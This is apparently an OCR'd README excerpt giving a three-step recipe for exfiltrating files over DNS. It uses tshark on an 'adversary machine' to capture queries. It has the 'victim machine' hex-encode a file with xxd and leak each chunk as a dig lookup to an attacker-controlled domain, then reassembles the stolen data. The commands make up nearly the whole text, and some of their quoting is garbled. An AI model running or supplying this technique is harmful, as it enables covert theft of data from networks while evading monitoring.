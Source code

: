 #### Run it with these steps!

1. On the adversary machine run the below command.

   tshark -f "udp port 53" -Y "dns.qry.type == 1 and dns.flags.response == 0 and dns.qry.name matches ".domain"" >>
   received_data.txt

2. On the victim machine run the below commands.

   xxd -p input_file > encoded_data.hex | for data in `cat encoded_data.hex`; do dig $data.domain; done

3. Once the data is received, use the below command to recover the data.

   cat output_file | cut -d "A" -f 2 | cut -d " " -f 2 | cut -d "." -f 1 | sort | uniq | xxd -p -r

<br/>
